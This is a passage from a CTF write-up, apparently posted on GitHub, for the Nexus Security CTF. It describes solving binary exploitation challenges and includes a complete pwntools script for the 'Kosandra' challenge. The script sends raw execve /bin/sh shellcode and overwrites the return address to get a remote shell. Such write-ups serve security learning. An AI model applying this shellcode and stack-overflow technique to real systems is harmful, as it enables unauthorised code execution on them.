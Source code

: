 Passing the IP and port of the remote instance:

![image](https://github.com/Siva-PythonPirates/Nexus-Security-CTF-Writeup/assets/79368311/7553ab30-3089-4b9b-bb58-319dcbcebacc)

Getting the canary value and reward:

![image](https://github.com/Siva-PythonPirates/Nexus-Security-CTF-Writeup/assets/79368311/f5e84671-ff8d-40c6-b0c2-bd4c3f7f87d9)


### 3. Kosandra
#### Approach :
Initially I prepared shellcode, which is the assembly code that spawns a shell when executed. In this case, the shellcode I is a standard x86_64 Linux shellcode. The binary file provides an address as part of its interaction. This address will be used as the target address for the return-oriented programming (ROP) chain. So I wrote an exploit script that retrieves this address and converts it to an integer. I crafted the payload by concatenating the shellcode with a padding of 'A's to fill the buffer until it reaches the return address. The return address is overwritten with the leaked address obtained from the ELF file.

#### Exploit Code:
```
from pwn import *

context.binary = binary = ELF("./kosandra")

shell_code = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

ip = input("IP >> ")
port = input("Port >> ")

p = remote(ip,port)

p.recvuntil('Tell The World That How Much You Love Me............! ')

add = int(p.recvline().strip(), 16)
print(f"Address = {add}")

payload = shell_code + b'A'*(56 - 23) + p64(add)

p.sendline(payload)
p.interactive()
```

![image](https://github.com/Siva-PythonPirates/Nexus-Security-CTF-Writeup/assets/79368311/5d7c6965-5cf2-4388-9b4e-9f0860de382e)


### 4. Freedom
#### Approach :
On viewing the file in Binary Ninja, I found that the binary executes whatever we give as input as a shellcode. It also has a very large buffer. So I wrote a simple python script to exploit it..
